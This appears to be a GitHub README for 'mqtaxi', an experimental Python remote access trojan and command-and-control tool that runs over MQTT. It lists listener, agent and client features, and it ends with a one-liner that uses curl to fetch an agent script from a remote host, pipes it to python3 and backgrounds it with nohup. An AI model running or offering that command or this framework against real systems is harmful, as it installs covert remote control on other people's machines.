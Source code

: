 # mqtaxi
### Experimental Python mqtt RAT/C2/Etc

This is a **toy** not meant for real Red Team engagements.  However I randomly make updates or add features to test the useability of mqtt as a transport mechanism for offensive use.  Collaboration on this project is welcome.

![Screenshot from 2022-11-21 12-45-32](https://user-images.githubusercontent.com/36344197/203133130-4aadeecc-7b3f-47c5-a5ea-8e8412f4de46.png)

The idea comes from using existing and trusted transport methods to achieve nefarious goals.  Mqtt's pub/sub type method of communication is perfectly situated for this and is common especially with iot type devices.  Mosquitto mqtt is easy to set up and also supports using forwarders.

Using mqtt as a remote shell mechanism has been done before and isn't anything new, however I wanted to attempt to give it a more polished interface as seen in many other C2 type frameworks.

---

**Current status:**

Mqtt connection is negotiated with paho.mqtt Python library

The client allows for typical creation of listeners, however the listener is actually a mqtt server that is either public or privately hosted using either tcp or websockets.  The mqtt server itself is just a standard Mosquitto mqtt server however I have included a default.conf and install script to get it running quickly.

![Screenshot from 2022-11-21 12-51-24](https://user-images.githubusercontent.com/36344197/203134494-9bb2e419-83e5-40fe-a514-4274c72dfb2e.png)

The client has the ability to connect to an agent to run pub/sub commands and see responses from terminal as well as Upload/Download functionality.  However as mentioned previously this is very much a work in progress.

![Screenshot from 2022-11-21 12-48-18](https://user-images.githubusercontent.com/36344197/203134445-663f5f10-3c89-4d56-9293-1ffed4da409d.png)

Python agents are generated using the 'generate' command within the config menu depending upon which listener you have activated using 'uselistener'.  I would like to add many more agents besides Python based.

![Screenshot from 2022-11-21 12-51-53](https://user-images.githubusercontent.com/36344197/203135028-4b2aba7e-2a57-4a93-9263-80442241d025.png)

---

**Some notes:**
- It is bloated and needs work
- It uses Python agents
- Doesn't follow standard accepted Python styles of coding, oops.

**Listener Features:**
- Multi handler with Mosquitto mqtt pub/sub listener
- SSL TCP (mqtts://) or Websockets (wss://)
- Supports user/pass for authentication
- Supports ACL restrictions per topic

**Agent Features:**
- Remote shell (needs work or complete rewrite with pty or something similar, however currently works)
- Upload / Download
- Linux and Windows agents

**Client Features:**
- Add listeners (public or private)
- Generate agents per activated listener
- Session listing and connection
- Pub/Sub content is encrypted from MQTaxi to agent and visa versa, however, it is a python agent so...

**Work Needed:**
- Remove bloat
- Add jitter
- Add agents that use different languages besides Python
- Python agent pty.fork possibly
- Complete overhaul?  Who knows
- Include install script for mqtt forwarder
- Implement mqtt QoS and Last Will & Testament

**Execution of agent:**

The Python agent can be executed on a linux host with something like..

`yes|pip3 install paho.mqtt;nohup curl -s -X GET -H 'file:doit.py' https://my.hosted.something.com/3_tcp_lin.py|python3&exit`




	
